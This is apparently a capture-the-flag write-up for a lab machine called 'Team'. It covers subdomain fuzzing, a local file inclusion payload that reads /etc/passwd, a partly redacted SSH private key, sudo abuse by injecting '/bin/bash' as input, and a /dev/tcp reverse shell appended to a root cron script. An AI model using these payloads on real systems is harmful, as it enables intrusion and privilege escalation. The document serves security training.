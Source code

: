 ## Team

# Enumeration
```
# cat nmap/initial
# Nmap 7.91 scan initiated Fri Mar  5 16:10:39 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 22,21,80 10.10.142.20
Nmap scan report for 10.10.142.20
Host is up, received echo-reply ttl 61 (0.15s latency).
Scanned at 2021-03-05 16:10:40 PST for 13s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  5 16:10:53 2021 -- 1 IP address (1 host up) scanned in 13.59 seconds
```

# Port 80
An ubuntu default page, except for the following
If you see this add 'team.thm' to your hosts!
so we adjust our /etc/hosts file as such

# team.thm
A gobuster directory scan finds us a couple pages but nothing we couldn't find by looking through the page ourselves, so we try and look for subdomains

```
wfuzz -c -f subdomain.txt -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200,202,204,301,302,307,403 -u"http://team.thm/" -H "Host: FUZZ.team.thm"
```
```
# head subdomain.txt -n 20
Target: http://team.thm/
Total requests: 4989
==================================================================
ID    Response   Lines      Word         Chars          Request
==================================================================
00012:  C=200    373 L       977 W        11366 Ch        "ns2"
00011:  C=200    373 L       977 W        11366 Ch        "ns1"
00010:  C=200    373 L       977 W        11366 Ch        "whm"
00009:  C=200    373 L       977 W        11366 Ch        "cpanel"
00006:  C=200    373 L       977 W        11366 Ch        "smtp"
00001:  C=200     89 L       220 W         2966 Ch        "www"
00003:  C=200    373 L       977 W        11366 Ch        "ftp"
00007:  C=200    373 L       977 W        11366 Ch        "webdisk"
00002:  C=200    373 L       977 W        11366 Ch        "mail"
00004:  C=200    373 L       977 W        11366 Ch        "localhost"
00013:  C=200    373 L       977 W        11366 Ch        "autodiscover"
00015:  C=200    373 L       977 W        11366 Ch        "ns"
00019:  C=200      9 L        20 W          187 Ch        "dev"
00023:  C=200    373 L       977 W        11366 Ch        "forum"
00022:  C=200    373 L       977 W        11366 Ch        "pop3"
```
We quickly find a dev subdomain so lets add this to our hosts file and explore here
```
Site is being built

Place holder link to team share
```
Clicking the link gives us this url
http://dev.team.thm/script.php?page=teamshare.php
so lets test for LFI
http://dev.team.thm/script.php?page=../../../etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can find the user flag in /home/dale/user.txt
Eventually fuzzing using SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
find us the file /etc/sshd/sshd_config which within contain the following
```
#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED 
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```
We format this according and now have a foothold via ssh as dale

# Horizontal Escalation
```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
looks like we might have sudo permission on a file to possible do some horizontal escalation to the gyles user
```
dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
we can see that the date line reads in a variable, error, from user input and then doesn't properly echo it/redirect it to null, so we should be able to spawn a shell 
```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: neyr
Enter 'date' to timestamp the file: /bin/bash
The Date is
whoami
gyles
```
we can fix our shell and procede to try and escalate to root

# Root Escalation
We start by checking gyles home directory for anything interesting
```
gyles@TEAM:/home/gyles$ ls -la
total 48
drwxr-xr-x 6 gyles gyles   4096 Jan 17 19:47 .
drwxr-xr-x 5 root  root    4096 Jan 15 20:21 ..
-rwxr--r-- 1 gyles editors  399 Jan 15 21:52 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17 20:34 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15 21:38 .cache
drwx------ 3 gyles gyles   4096 Jan 15 21:38 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15 21:51 .local
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan 15 21:43 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17 15:05 .sudo_as_admin_successful
gyles@TEAM:/home/gyles$
```

.ssh just has a known_hosts file, but .bash_history has not been cleared so lets check it out
we see mentions of a /usr/local/bin/main_backup.sh file 
```
gyles@TEAM:/home/gyles$ ls -la /usr/local/bin | grep backup
-rwxrwxr-x  1 root admin   65 Jan 17 20:36 main_backup.sh

gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/

gyles@TEAM:/home/gyles$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

This file is owned by root and may possibly be part of a cronjob given the operations and hint in the room
As gyles we are in the admin group so we can insert a reverse shell here and see if we get a callback on our listener
```
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"
```
Sure enough after a little bit we have a reverse shell spawned on our listener and can claim the root flag in the root directory
